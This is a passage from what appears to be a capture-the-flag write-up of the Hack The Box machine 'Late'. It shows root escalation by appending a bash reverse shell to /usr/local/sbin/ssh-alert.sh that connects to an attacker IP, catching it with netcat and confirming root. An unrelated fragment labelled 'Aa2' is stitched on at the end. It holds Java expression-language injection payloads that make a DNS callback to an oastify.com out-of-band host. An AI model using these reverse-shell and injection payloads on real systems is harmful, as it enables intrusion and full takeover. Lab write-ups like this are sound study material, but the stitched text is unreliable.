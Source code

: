 ### Get a root shell
Or we could simply add a reverse shell:
```bash
svc_acc@late:~$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.56/4444 0>&1"' >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ ssh localhost
```

In Kali we receive the reverse shell:
```bash
caue@kali:~/htb/late$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.56] from (UNKNOWN) [10.129.166.198] 57468
bash: cannot set terminal process group (9654): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We are root.

Aa2
```
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","8fore14cxg51nrq3fcl98ruuzl5bt0.oastify.com")}

${{"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","8fore14cxg51nrq3fcl98ruuzl5bt0.oastify.com")}}
```